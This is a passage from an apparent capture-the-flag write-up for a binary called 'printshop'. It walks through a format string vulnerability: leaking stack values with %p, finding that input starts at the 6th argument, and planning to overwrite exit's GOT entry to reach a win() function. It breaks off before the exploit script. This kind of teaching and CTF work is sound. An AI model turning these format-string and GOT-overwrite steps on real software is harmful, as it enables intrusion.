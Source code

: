 Yes it leaking values, which confirms that it is a simple case of format string vulnerability.

### How do we exploit it?

Since there is a call to `exit` after our vulnerable `printf` we can use this vulnerability to overwrite the GOT entry for exit with some other memory address.

But where exactly to jump to? Initially I was thinking about ROP chaining but that's a bit too much for an "EASY" challenge. Then I looked at a few other functions in the binary:

```console
$ nm printshop
000000000040038c r __abi_tag
0000000000404078 B __bss_start
00000000004040a8 b completed.0
...
00000000004040a0 B stderr@GLIBC_2.2.5
0000000000404090 B stdin@GLIBC_2.2.5
0000000000404080 B stdout@GLIBC_2.2.5
0000000000404078 D __TMC_END__
000000000040129d T win
```

`win()` seems interesting. We don't need to see its disassembly, its obvious from the name that this is the function we need to jump to.

### Writing the exploit

Let's throw a bunch of %p characters and see what values we are leaking:

```console
$ python -c 'print("%p " * 20)' | ./printshop

Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!

0x7fd9c803b643 (nil) 0x7fd9c7f00aa4 0x1 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 (nil) (nil) (nil) 0x7fd9c826c730 (nil) 0xa4bd4f226a5b5000 0x1
```

We see an interesting pattern of repeating hex value: 0x70 0x25 0x20. They are nothing but 'p', '%', ' '.

Basically we start leaking our own input from the 6th argument. At this point we have 2 choice:

1. Manually craft the payload

2. Use pwntools

#### Manual way

During the challenge I used the manual way of exploiting it.

Here is the `exploit.py` script:
